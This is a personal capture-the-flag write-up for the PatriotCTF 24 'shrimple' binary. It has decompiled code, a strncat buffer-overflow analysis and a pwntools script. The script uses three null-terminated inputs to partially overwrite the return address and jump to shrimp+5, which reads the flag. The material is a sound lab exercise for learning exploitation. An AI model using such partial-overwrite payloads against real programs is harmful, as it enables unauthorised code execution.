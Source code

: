 
![[shrimple]]


## Reflection
I did not manage to solve this challenge in time - I was able to jump to the shrimp function but encountered a misaligned stack. I found on the discord that jumping to shrimp+5 solved this issue.

I can see now that via the solution, we overwrite the first 5 bytes of the 8 bytes which leaves a 3 byte address. jumping to shrimp+5 nullifies this stack alignment issue.



```
beast@laptop:~/PatriotCTF 24/shrimple$ file shrimple
shrimple: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f02bd41d0b14378b591eb8e3d9dfdb2f3218dab1, for GNU/Linux 3.2.0, not stripped`
```


```
beast@laptop:~/PatriotCTF 24/shrimple$ checksec --file=shrimple
[*] '/home/beast/PatriotCTF 24/shrimple/shrimple'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```




Functions:

```
Non-debugging symbols:

0x0000000000401236  ignore_me
0x000000000040127d  shrimp
0x00000000004012f4  main
```





Main taken from Ghidra:

```
void main(void)

{
  char local_88 [64];
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined2 local_28;
  undefined local_26;
  
  puts("Welcome to the shrimplest challenge! It is so shrimple, we\'ll give you 3 shots.");
  for (i = 0; i < 3; i = i + 1) {
    printf("Remember to just keep it shrimple!\n>> ");
    fgets(local_88,0x32,stdin);
    puts("Adding shrimp...");
    local_48 = 0x2079736165206f73;
    local_40 = 0x73206f7320646e61;
    local_38 = 0x2c656c706d697268;
    local_30 = 0x7566206576616820;
    local_28 = 0x216e;
    local_26 = 0;
    strncat((char *)&local_48,local_88,0x32);
    printf("You shrimped the following: %s\n",&local_48);
  }
  puts("That\'s it, hope you did something cool...");
  return;
}
```


```
void shrimp(void)

{
  int iVar1;
  FILE *__stream;
  char local_9;
  
  __stream = (FILE *)FUN_00401140("/flag.txt",&DAT_00402008);
  if (__stream == (FILE *)0x0) {
    puts("Flag file not found, contact an admin!");
  }
  else {
    iVar1 = fgetc(__stream);
    local_9 = (char)iVar1;
    while (local_9 != -1) {
      putchar((int)local_9);
      iVar1 = fgetc(__stream);
      local_9 = (char)iVar1;
    }
    fclose(__stream);
  }
  return;
}
```


the 'shrimp' looks like ascii:

```
	local_48 = 0x2079736165206f73;
    local_40 = 0x73206f7320646e61;
    local_38 = 0x2c656c706d697268;
    local_30 = 0x7566206576616820;
    local_28 = 0x216e;
    local_26 = 0;
```

When run through, this adds the output string to local_48 with is then concatenated with `strncat`

`strncat((char *)&local_48,local_88,0x32);`

The combination of both strings leads to a buffer overflow situation where we can overwrite the return address with the shrimp function address to print the flag.

Unfortunately for us, `strncat` terminates on null bytes which means to write the address of the shrimp function `0x40127d` as the return address, to fill the register it would require null bytes which cant be written as strncat finishes when it encounters them.

To get around this, we use the first write to overwrite the first part of the current return address with a null byte and the added null byte from strncat, then we overwrite the next byte with the second input, followed by the actual address of the function to jump to.

#misaligned-stack 
Another example of an unaligned stack occurs when jumping to the shrimp function (i did not work this out during the challenge unfortunately) but this can be solved by jumping to shrimp+5) instead. 

#my-solution 

```
from pwn import *
  

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
        if args.GDB:  # Set GDBscript below
                return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
        elif args.REMOTE:  # ('server', 'port')
                return remote(sys.argv[1], sys.argv[2], *a, **kw)
        else:  # Run locally
                return process([exe] + argv, *a, **kw)

  

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
break *0x00000000004013f0
'''.format(**locals())

  
  
  

# Binary filename
exe = './shrimple'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
  
  
 

# Build the payload
payload_one = flat(
        b'a' * 43,
        b'\x00'
)

 
# Build the payload
payload_two = flat(
        b'b' * 42,
        b'\x00'
)


# Build the payload
payload_three = flat(
        b'b' * 38,
        b'\x82\x12\x40',
        b'\x00'
)

  
  

# Start program
io = start()
 


payload_one = flat(
        b'a' * 43,
        b'\x00'
)

payload_two = flat(
        b'b' * 42,
        b'\x00'
)
  

# Build the payload
payload_three = flat(
        b'b' * 38,
        b'\x82\x12\x40',
        b'\x00'
)

  

io.sendlineafter(b'>>', payload_one)
io.sendlineafter(b'>>', payload_two)
io.sendlineafter(b'>>', payload_three)
```
